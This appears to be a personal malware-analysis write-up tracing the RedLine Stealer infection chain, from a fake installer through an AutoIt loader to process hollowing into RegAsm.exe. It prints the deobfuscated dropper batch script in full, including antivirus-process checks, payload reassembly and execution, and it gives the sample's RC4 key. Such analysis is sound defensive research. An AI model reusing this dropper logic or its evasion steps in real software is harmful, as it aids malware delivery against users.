 ## Redline Stealer Infection Chain

Came across a sample from Malware Bazaar.

SHA256: 292a43281a8146f248fb71d92e5e32597c587fe003ac3a2f3ac8227331062120

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/0e2605c6-3811-44e3-b9da-15b898626024)

Detect It Easy recognized the exe file as an Installer, also there were some mentions of Autoit on VirusTotal.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f3e700bb-fad6-4640-a2a3-13f4a973e34c)

There’s a bunch of garbled strings and it is also packed, typical for installers. IAT and API string references seem normal.

I read up on [eSentire’s Case Study](https://www.esentire.com/blog/esentire-threat-intelligence-malware-analysis-redline-stealer), and the initial loader for Redline are known to take form of fake installers like TeamViewer, AnyDesk, etc. A similar variant’s infection chain looks like the following, so I tried to base my analysis around this:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a9c6f5b0-f192-4959-ab4b-562aea0c1849)

In IDA, the main functionality of the program lies in `sub_4015A0`, which handles file creation, deletion, setting up uninstallers, inserting registry keys, creating directories, etc. There is an interesting `ShellExecuteW` API call with dynamically resolved strings, and when looking through Tiny Tracer logs, there was one call to this exact offset.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/64279dc5-9de9-404e-8c8e-16a94806680b)

Tiny Tracer ouptut seems to stop at `ShellExecuteW` also:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/cefd1e56-adae-4cd5-b9aa-fd9cf036248e)

I couldn’t find any other process related APIs being used, so decided to see what is passed into the function. It looks like it’s copying a file `Wrist` into `Wrist.cmd` in the user’s Temp directory and executing it.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/a8a71893-963f-46d9-b93d-2be2398fe8db)

`Wrist.cmd` is an obfuscated batch script.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/2503a94f-7e67-41b7-9b4c-0e126d2443f5)

After deobfuscating, we get:

```powershell
Set oobjxQdyOhgEZ=Promptly.pif
Set MXpzMKVMvPYNjICbYkFdgBg=  
tasklist   | findstr /I "wrsa.exe opssvc.exe"  1>NUL  & if not errorlevel 1 ping -n 196 127.0.0.1
Set /a Attend=802403
tasklist   | findstr /I "avastui.exe avgui.exe nswscsvc.exe sophoshealth.exe"   & if not errorlevel 1 Set oobjxQdyOhgEZ=AutoIt3.exe   & Set MXpzMKVMvPYNjICbYkFdgBg=.a3x
cmd /c md %Attend%
findstr /V "LyingBaghdadProgrammersAtom" Fisher  1>%Attend%\%oobjxQdyOhgEZ%
copy /b %Attend%\%oobjxQdyOhgEZ% + Collected + Thomas + Mandate + Formed + Notify + Fusion + Hs + Joke + Uni + Painful + Harmful + Sullivan + Exhibition + Monster + Dated + Senegal + Maritime + Token + Lovely + Essentially + Verde + Fork + Mumbai + Horse %Attend%\%oobjxQdyOhgEZ%
cmd /c copy /b Drew + Folder + %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
start /I %Attend%\%oobjxQdyOhgEZ% %Attend%\%oobjxQdyOhgEZ%U%MXpzMKVMvPYNjICbYkFdgBg%
timeout 5
```

This checks for processes `wrsa.exe` and `opssvc.exe`, if found, ping the localhost 196 times. It also checks for antivirus services on the system `avastui.exe, avgui.exe, nswscsvc.exe sophoshealth.exe`, if found, ` oobjxQdyOhgEZ ` is set to `AutoIt3.exe` instead of `Promptly.pif`. It creates a directory named `802403`, and in there, constructs a file Promptly.pif or AutoIt3.exe using contents from different files i.e. Collected, Thomas, Mandate, …, and attempt to run it, passing in the file `802403\U` as an argument. 

During the execution of the initial installer, we can see that it drops the fragmented AutoIt3.exe files into the Temp directory. Here’s one of the fragments being created, seen in Tiny Tracer:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/033f61b8-f7d2-474c-a4d4-4796ad5efd67)

Anyways, this seems like a legitimate AutoIt3 interpreter based on VirusTotal reports. However, the payload in `802403\U` looks encrypted. After some research, the last stage typically involves some sort of injection technique and after some tinkering and setting breakpoints on `CreateProcess`, `OpenProcess`and `NtResumeThread`, etc. what happens is the AutoIt3 interpreter decrypts the payload in memory and does process hollowing on `RegAsm.exe`.  And its parent process is `explorer.exe`, weird. I suspended the process quickly after the payload is injected and used pe-sieve to dump out suspicious memory regions. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/699e279d-b415-491c-b969-46496edc2d32)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/22b2dfbd-9d74-4438-8803-08dac6232422)

The memory region at `0xdb0000` seems promising. 

After unmapping it in PE-bear, it looks like a .NET file, so opening it up in dnSpy, we are greeted with the final stage of the malware!

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/9805e5d4-3ac7-4cde-b8a3-5bf7591a0d9f)

But how did the decryption happen of the payload happen? Going back to executing `Promptly.pif` (or AutoIt3.exe), there was a `VirtualAlloc` call and a decryption routine shellcode written to that memory at `0x112000`, so I enabled an memory breakpoint on that address to catch the execution of that stub.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/79705fed-7511-4cbf-b9ac-6c6670464bd8)

Dumping the shellcode and opening it in IDA, we can see 2 functionalities related to the RC4 initialization stage in `sub_2` and the XOR stage in `sub_93`. (learned this from Zero2Automated lol)

`sub_2`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/ce203bc6-7a4f-4cfa-b09e-4bfb919241ca)

`sub_93`:
![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/f6125b26-114e-4651-98b1-f3c1c8fa1d4a)

Looking back at the arguments being passed into sub_2, the RC4 key is `8518543726503553863083291645022577371`.

Setting another breakpoint at the end of the decryption routine, we can see the encrypted blob that was decrypted at the same address `0x4790048` (this was on a second run because I messed up the first run).

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a4a6ed0-82eb-46bc-a636-cc29b17f22db)

But this PE file looks slightly different than the one I dumped previously. But thanks to a blog post from c3rb3ru5d3d53c, turns out it’s just compressed, and will be decompressed later and injected into a process, in my case `RegAsm.exe`.  Technically, I should run API monitor and track whichever API call was used for decompression and injection techniques, but I’m kinda lazy. But here’s a [list](https://github.com/cuckoosandbox/cuckoo/wiki/Hooked-APIs-and-Categories) of generic API calls you enable for monitoring.

Anyways this is just a quick summary on how to get to the Redline code and demoing how the infection chain works !!
